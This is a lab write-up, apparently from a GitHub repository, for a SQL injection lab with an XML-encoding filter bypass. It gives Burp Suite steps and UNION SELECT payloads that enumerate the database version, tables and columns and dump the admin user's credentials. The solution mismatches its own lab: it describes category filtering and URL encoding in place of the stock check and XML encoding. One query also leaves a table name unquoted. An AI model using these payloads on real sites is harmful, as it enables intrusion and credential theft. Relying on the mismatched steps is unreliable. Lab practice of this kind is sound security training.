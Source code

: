 **SQL injection with filter bypass via XML encoding**

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

Solution:- 

* Navigate to the portal & turn on intercept in BurpSuite
* Now, go to any category & check it in Burpsuite's Proxy tab
* Then, Send this to repeater & turn off the intercept
* Now, we need to go step by step to check version of database
     1. Find no of columns
     2. Find datatype of the columns
     3. Version of the database
     4. Output the tables in database
     5. Get column names for the user table
     6. And, get login credentials for admin
    
* So, in order to find no of columns, add ```' ORDER BY 1--``` & increase it till we get Internal Server Error  
* Now, we know no of columns as 2, Add ```'UNION SELECT 'a', 'b'--``` to see it accepts string type or not. It does, in our case  
* Now, as we don't know the database, we need to check both Microsoft & PostGreSQL. For that, check with ```' UNION SELECT @@version, NULL--``` & ```' UNION SELECT version(), NULL--```, out of which later is giving 200 OK response.
* Now, we need to output out list of table names in DB, for that add ```UNION SELECT table_name, NULL from information_schema.tables--```
* & you'll now have table name - users_tyfcfx, we now need column names which contains username & password.
* For that, write ```'UNION SELECT column_name, NULL from information_schema.columns where table_name=users_tyfcfx--```
* Now, you'll get output with **username_xllosq** & **password_ztcdnu** as column names  
* So, we need data of these columns from table name. ```'UNION SELECT password_ztcdnu,username_xllosq from users_tyfcfx--```
* You'll get admin username & password in response. Search with __admin__ for credentials
* Now, go to target website & login with those credentials, you've solved the lab.

> NOTE :- Use encoded terms if normal text is giving Internal Server error response with CTRL+U.

![solution_lab6.png](../images/img_8.png)